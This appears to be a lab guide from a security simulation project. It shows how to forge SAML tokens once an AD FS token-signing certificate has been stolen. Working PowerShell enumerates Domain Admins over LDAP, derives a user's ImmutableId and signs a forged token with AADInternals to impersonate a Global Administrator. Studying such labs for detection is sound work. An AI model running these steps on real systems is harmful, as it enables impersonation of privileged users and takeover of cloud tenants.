

# Forge SAML Tokens with Active Directory Federation Service (AD FS) Token Signing Certificate

If a threat actor gets to steal the AD FS token signing certificate from an AD FS server, it is just a matter of time until it is used to sign SAML tokens and impersonate users in a federated environments. 

## Sumulate & Detect
1.	[Enumerate privileged accounts](#enumerate-privileged-accounts).
2.	[Forge SAML token](#forge-saml-token).

## Enumerate Privileged Accounts

Let's start by identifying privileged accounts that we could impersonate and that could also have privileged access to resources in the cloud. In this lab guide, the default domain admin account named `pgustavo` was also the account that was assigned the Azure AD built-in  Global Administrator   role. Therefore, we can start by enumerating the members of the `Domain Admins` group.

### Enumerate Members of the Domain Admins Group via Lightweight Directory Access Protocol (LDAP)

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
    * Authorization: AD FS service account or domain user
* Endpoint: DC01
    * Service running: Active directory domain services
    * Port open: 389

1.  Connect to the AD FS server (ADFS01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as the AD FS service account.
2.  Open PowerShell and run the following commands:

```PowerShell
# Get Domain Name
$DomainName = (Get-WmiObject Win32_ComputerSystem).Domain 
$arr = ($DomainName).split('.')
$DNDomain = [string]::Join(",", ($arr | % { "DC={0}" -f $_ }))

# Create LDAP Search
$ADSearch = New-Object System.DirectoryServices.DirectorySearcher
$ADSearch.SearchRoot = "LDAP://$DomainName/$DNDomain"
$ADSearch.Filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,$DNDomain))"
$ADUsers = $ADSearch.FindAll()
$Results = @()

# Process Results
ForEach($ADUser in $ADUsers){
  If($ADUser){
    $Object = New-Object PSObject -Property @{
      Samaccountname = ($ADUser.Properties).samaccountname
      ObjectGuid  = ([guid]($ADUser.Properties).objectguid[0]).guid
    }
    $Results += $Object
  }
}
# Display results
$Results | Format-Table Samaccountname,ObjectGuid
```



## Forge SAML Token

A threat actor would most likely do this outside of the organization. Therefore, there are no detections for this step.

**Preconditions**
* Endpoint: AD FS Server (ADFS01)
  * Even when this step would happen outside of the organization, we can use the same PowerShell session we used in the previous section.
  * Authorization: Local Administrator
  * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
  * AD FS token signing certificate:
    * In a previous simulation step, we [exported the AD FS token signing certificate as a PFX file](exportADFSCertificatesAsPfxFiles.md) to the `C:\ProgramData` directory with the name `ADFSTokenSigningCertificate.pfx` (default).

### Convert User AD Object GUID to its Azure AD Immutable ID representation

1.  Once we identify the privileged user we want to impersonate, we need to obtain the immutable ID of the account AD object GUID. The `ImmutableId` is the base64-encoded representation of a domain user GUID in Azure AD.

```PowerShell
$ObjectGUID = "07cd318c-b6ba-432e-9936-b992d7c78388"
$ImmutableId = [convert]::ToBase64String(([guid]$ObjectGUID).ToByteArray())
```


### Install AADInternals

2.  On the same PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals
```

### Sign a New SAML Token

3. Use the `New-AADIntSAMLToken` function to sign a new SAML token. We would need:
  * The `ImmutableID` we got in the first stecion.
  * The path to the token signing certificate file.
  * The D FS token issuer url.

```PowerShell 
$ImmutableId = 'jDHNB7q2LkOZNrmS18eDiA=='
$Cert = 'C:\ProgramData\ADFSTokenSigningCertificate.pfx'
$Issuer = 'http://simulandlabs.com/adfs/services/trust/'
$SamlToken = New-AADIntSAMLToken -ImmutableID $ImmutableId -PfxFileName $Cert -PfxPassword "" -Issuer $Issuer
```


## Output

Use the variable `$SamlToken` in the next step where we [get an access token via SAML bearer Assertion Flow](../persistence/getAccessTokenSAMLBearerAssertionFlow.md) for resources such as the Microsoft Graph API.

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
